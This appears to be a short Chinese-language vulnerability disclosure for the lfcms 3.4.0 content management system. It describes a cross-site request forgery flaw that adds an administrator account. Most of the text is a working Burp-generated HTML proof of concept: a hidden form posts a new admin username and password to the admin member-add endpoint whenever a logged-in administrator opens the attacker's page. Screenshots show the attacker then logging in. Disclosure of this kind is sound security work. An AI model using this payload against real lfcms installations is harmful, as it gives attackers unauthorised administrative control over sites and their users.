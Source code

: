 ### lfcms（雷风）

```
版本信息：3.4.0
```

#### CSRF添加管理员

火狐浏览器登录管理员，管理员在登录的情况下打开了攻击者构造的恶意文件

恶意文件

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.81.116:31001/admin.php?s=/Member/add.html" method="POST">
      <input type="hidden" name="username" value="demo" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="repassword" value="123456" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

管理员视角：成功添加了另外一个管理员

![Snipaste_2022-11-04_10-54-09](images/Snipaste_2022-11-04_10-54-09.jpg)

攻击者利用添加的账户登录

![Snipaste_2022-11-04_10-56-08](images/Snipaste_2022-11-04_10-56-08.jpg)

